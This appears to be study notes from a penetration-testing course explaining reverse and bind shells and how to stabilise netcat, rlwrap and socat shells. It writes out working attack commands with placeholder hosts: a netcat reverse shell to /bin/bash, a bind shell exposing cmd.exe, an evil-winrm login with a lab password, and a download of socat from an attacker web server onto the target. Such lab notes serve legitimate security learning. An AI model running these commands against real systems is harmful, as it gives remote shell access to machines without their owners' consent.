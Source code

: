 ## Two most known types
1. Reverse shells
are when the target is forced to execute code that connects back to your computer. 

### Example
`sudo nc -lvnp 443` to start listner on attacker's machine, and `nc <LOCAL-IP> <PORT> -e /bin/bash` to set a reverse shell on the target's machine.

2. Bind shells
are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way.

### Example:
`nc -lvnp <port> -e "cmd.exe"` through a evil-winrm `evil-winrm -i <localIP>-u Adminstrator -p 'Try4ackM3'` on the target machine to set a listening port, and `nc MACHINE_IP <port>` on attacker's machine to connect to the target.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

## Shells can be either interactive or non-interactive
1. interactive: These allow you to interact with programs after executing them. For example, take the SSH login prompt. Examples include: Powershell, Bash, Zsh, sh, or any other standard CLI environment.

2. non-interactive: In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly, like whoami for example.

## netcat shells stabilisation
### python
1. first step is `python -c 'import pty;pty.spawn("/bin/bash")'` which gets us a better featured bash shell. we might need to replace python with python2 or python3 as required.
2. second step is: `export TERM=xterm` -- this will give us access to term commands such as clear.
3. `stty raw -echo; fg` -- This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). then foregrounds the shell, thus completing the process.
  > Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

### rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell. To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`.

This gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, cuz they are difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

### Socat
1. we would first transfer a socat static compiled binary up to the target machine. How? set up a web server using `sudo python3 -m http.server 80` and download using `wget <LOCAL-IP>/socat -O /tmp/socat)` or on windows using `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`.

  > This technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.

> With any of the above techniques, it's useful to be able to change your terminal tty size if you want to use something like a text editor. use `stty -a` to show the current values and `stty cols <num>`/`stty rows <num>` to set a new value. 

